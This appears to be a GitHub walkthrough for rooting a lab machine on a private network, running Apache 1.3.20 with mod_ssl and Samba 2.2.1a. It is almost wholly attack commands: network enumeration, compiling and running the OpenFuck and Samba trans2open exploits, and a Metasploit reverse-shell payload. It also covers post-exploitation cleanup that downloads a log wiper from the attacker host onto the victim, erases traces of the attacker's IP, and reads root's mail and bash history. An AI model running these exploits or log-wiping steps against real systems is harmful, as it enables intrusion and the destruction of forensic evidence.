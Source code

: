 
### Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.50.6  |
|                  |         ------------------
|                  |         ------------------
|   192.168.50.1   |---------|     Victim     |
|                  |         |  192.168.50.4  |
--------------------         ------------------
```

1. Enumeration
```
nmap -n -sn -vvv 192.168.50.0-255
nmap -vvv -A -oA 192.168.50.4 192.168.50.4
nmap -T4 192.168.50.4 -sV -O  
nmap -T4 -O -sV -sS 192.168.50.4

nbtscan 192.168.50.4

enum4linux 192.168.50.4  

nikto -host 192.168.50.4 -port 80,443
```
2. Exploitation

Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow

https://www.exploit-db.com/exploits/764/
```
cp /usr/share/exploitdb/exploits/unix/remote/764.c ~/OpenFuck.c
```
> http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/
```
apt-get install libssl-dev

apt-get install libssl1.0-dev  <=  IMPORTANT
```
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c

```
cp ~/Downloads/ptrace-kmod.c /var/www/html/
service apache2 start
```
"OpenFuck.c" =>  wget http://192.168.50.6/ptrace-kmod.c
```
gcc OpenFuck.c -o exploit -lcrypto
```
Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
```
./exploit | grep "1.3.20"

./exploit 0x6a 192.168.50.4 443
./exploit 0x6b 192.168.50.4 443 -c 50

id

cat /var/mail/root
```
-------
```
use auxiliary/scanner/smb/smb_version
```
(Samba 2.2.1a)

Google for “Samba 2.2.1a vulnerability”

https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open
```
use exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp
```
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution

https://www.exploit-db.com/exploits/10/

wget https://www.exploit-db.com/download/10.c
```
gcc 10.c -o samba

./samba

./samba -b 0 -c 192.168.50.6 192.168.50.4

uname -a && whoami
```
-------

Cleanup after pwning linux system

http://garage4hackers.com/showthread.php?t=6901

Victim
```
cd /var/log && grep -r 192.168.50.6 ./
```
Attacker

https://packetstormsecurity.com/files/31345/0x333shadow.tar.gz.html
```
cp ~/Downloads/0x333shadow.tar.gz ~
tar xvf 0x333shadow.tar.gz
cp 0x333shadow/0x333shadow.c /var/www/html/rmLogs.c
```
Victim
```
cd /tmp
wget 192.168.50.6/rmLogs.c
gcc rmLogs.c -o rmLogs -D Linux

./rmLogs

./rmLogs -a -i 192.168.50.6 -l 5 && rm -rf *

cd /var/log && grep -r 192.168.50.6 ./

locate .bash_history
cat /home/john/.bash_history
cat /root/.bash_history

uname -a && whoami
```
